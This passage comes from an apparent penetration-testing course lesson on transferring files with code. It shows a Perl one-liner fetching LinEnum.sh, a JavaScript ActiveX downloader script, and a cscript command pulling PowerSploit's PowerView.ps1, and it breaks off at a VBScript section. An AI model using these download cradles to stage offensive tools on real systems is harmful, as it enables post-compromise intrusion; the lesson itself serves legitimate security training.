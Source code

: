 
#### Perl - Download a File

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

## JavaScript

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

Code: javascript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

#### Download a File Using JavaScript and cscript.exe

  Transferring Files with Code

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:
